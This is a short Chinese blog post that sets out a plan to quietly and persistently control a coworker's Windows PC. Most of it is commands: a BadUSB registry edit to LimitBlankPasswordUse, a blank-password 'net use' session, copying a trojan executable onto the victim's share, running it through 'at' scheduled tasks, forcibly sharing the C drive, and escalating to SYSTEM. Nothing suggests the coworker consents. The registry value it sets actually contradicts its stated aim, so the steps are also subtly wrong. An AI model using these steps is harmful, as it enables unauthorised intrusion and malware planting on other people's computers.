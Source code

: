 ```yaml
---
layout: mypost
title:  net use 低调持久控制同事电脑的奇怪想法
categories: [Windows,cmd]
---
```


- 1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.

```cmd
cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
```

通过修改这个选项,下一步可以利用 `net use `建立空链接.

- 2 net use

```cmd
net use \\IP "" /user:administrator
#建立空链接
net view #然后查看目标机器的共享了哪些目录?
#假设有可用的共享目录c
copy 木马.exe \\ip\c #拷贝木马文件到目标机器
#使用 at 计划任务命令
net time \\ip #查看目标机器现在的时间
at \\ip 17:55:00 cmd /c "c:\木马.exe" #通过计划任务命令运行拷贝的木马文件

#如果没有可用的共享目录
at \\ip 17:55:00 cmd /c "net share c=c: /grant:administrator,full" #使用计划任务共享一下c盘以便来使用.

ps:
at #使用了 system 权限, meterpreter [get system] 不好用的时候,也可以用来运行木马文件来进行提权.
```

